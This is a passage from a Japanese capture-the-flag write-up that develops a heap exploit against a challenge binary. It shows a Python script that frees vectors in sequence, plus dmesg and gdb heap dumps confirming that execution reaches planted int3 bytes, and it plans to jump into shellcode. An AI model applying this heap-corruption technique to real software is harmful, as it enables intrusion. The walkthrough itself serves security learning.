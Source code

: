```python
add_vec(2, 10, [-1])
remove_vec(2)
remove_vec(1)
remove_vec(0)

_ = input()
show_vec(0)
```

お、何か上手くいってるっぽい。
```
root@c593f3ed8e10:~# dmesg | tail
[30523.084953] device veth9968788 entered promiscuous mode
[30523.085030] IPv6: ADDRCONF(NETDEV_UP): veth9968788: link is not ready
[30523.085031] br-ea5db204dc76: port 1(veth9968788) entered blocking state
[30523.085033] br-ea5db204dc76: port 1(veth9968788) entered forwarding state
[30523.086000] br-ea5db204dc76: port 1(veth9968788) entered disabled state
[30524.684082] eth0: renamed from veth363bb9b
[30524.711675] IPv6: ADDRCONF(NETDEV_CHANGE): veth9968788: link becomes ready
[30524.711801] br-ea5db204dc76: port 1(veth9968788) entered blocking state
[30524.711805] br-ea5db204dc76: port 1(veth9968788) entered forwarding state
[31191.672665] traps: upxofcpp.org[925] trap int3 ip:7feec87f4cb1 sp:7fffe2d631f8 error:0
```

確かにヒープ上で死んでます。
```
Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007f3853095cb1 in ?? ()
(gdb) x/32i $rip
=> 0x7f3853095cb1:	int3
...
(gdb) x/32xg 0x7f3853095c00
0x7f3853095c00:	0x0000000000000000	0x0000000000000000
0x7f3853095c10:	0x0000000000000000	0x0000000000000021
0x7f3853095c20:	0x00007f3853095c60	0x00007f3853095c40
0x7f3853095c30:	0x000000000000000a	0x0000000000000031
0x7f3853095c40:	0x00007f3853095c80	0x0000000000000000
0x7f3853095c50:	0x0000000000000000	0x0000000000000000
0x7f3853095c60:	0x0000000000000000	0x0000000000000021
0x7f3853095c70:	0x00007f3853095cb0	0x00007f3853095c90
0x7f3853095c80:	0x000000000000000a	0x0000000000000031
0x7f3853095c90:	0x00007f3853095cd0	0x0000000000000000
0x7f3853095ca0:	0x0000000000000000	0x0000000000000000
0x7f3853095cb0:	0x0000000055cccccc	0x0000000000000021
0x7f3853095cc0:	0x0000000000000000	0x00007f3853095ce0
0x7f3853095cd0:	0x000000000000000a	0x0000000000000031
0x7f3853095ce0:	0x0000000000000000	0x0000000000000000
0x7f3853095cf0:	0x0000000000000000	0x0000000000000000
```
で、そのちょっと先にindex=2のヒープを指すアドレスがあります。
これを利用して、index=2の配列へジャンプしてやればシェルコードが動かせそうです。

ここにシェルコードを入れて、jmpの前にint 3を発生させてデバッグしてみましょう。
